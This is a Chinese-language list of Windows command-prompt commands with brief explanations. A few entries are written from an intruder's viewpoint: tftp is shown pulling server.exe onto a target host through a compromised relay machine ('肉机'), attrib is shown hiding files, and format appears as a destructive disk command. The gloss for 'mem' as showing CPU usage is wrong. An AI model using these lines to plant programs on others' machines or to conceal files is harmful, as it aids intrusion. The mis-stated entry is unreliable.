 　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

　　用参数/e才可连目录下的子目录一起复制到目标地址下。

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息

　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

　　mem 查看cpu使用情况

　　attrib 文件名(目录名) 查看某文件（目录）的属性

　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性

　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间

　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

　　set 指定环境变量名称=要指派给变量的字符 设置环境变量

　　set 显示当前所有的环境变量

　　set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量

　　pause 暂停批处理程序，并显示出：请按任意键继续....

　　if 在批处理程序中执行条件处理（更多说明见if命令及变量）

　　goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

　　call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）

　　for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）

　　echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置

　　echo 信息 在屏幕上显示出信息

　　echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中

　　findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello

　　find 文件名 查找某文件

　　title 标题名字 更改CMD窗口标题名字

　　color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白

　　prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )

　　ver 在DOS窗口下显示版本信息

　　winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）

　　format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
